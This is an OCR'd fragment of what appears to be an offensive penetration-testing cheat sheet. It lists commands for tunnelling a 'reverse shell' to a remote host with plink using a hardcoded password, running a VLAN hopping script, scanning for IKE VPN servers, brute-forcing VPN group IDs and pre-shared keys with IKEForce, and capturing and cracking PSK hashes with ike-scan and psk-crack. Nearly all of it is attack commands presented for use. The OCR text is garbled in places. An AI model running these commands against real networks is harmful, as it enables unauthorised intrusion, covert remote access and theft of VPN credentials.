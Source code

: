 # Start the http tunnel client
httptunnel_client.exe

# Create HTTP reverse shell by connecting to localhost port 3000
plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000

# VLAN Hopping
git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh`


# VPN Hacking 
- Identify VPN servers:
./udp-protocol-scanner.pl -p ike $ip

- Scan a range for VPN servers:
./udp-protocol-scanner.pl -p ike -f ip.txt

# Use IKEForce to enumerate or dictionary attack VPN servers:
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git  

# Perform IKE VPN enumeration with IKEForce:
./ikeforce.py TARGET-IP â€“e â€“w wordlists/groupnames.dic  

### Bruteforce IKE VPN using IKEForce:
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1  

Use ike-scan to capture the PSK hash:
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
ike-scan â€“M â€“A â€“n example\_group -P hash-file.txt TARGET-IP  

Use psk-crack to crack the PSK hash

psk-crack hash-file.txt
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
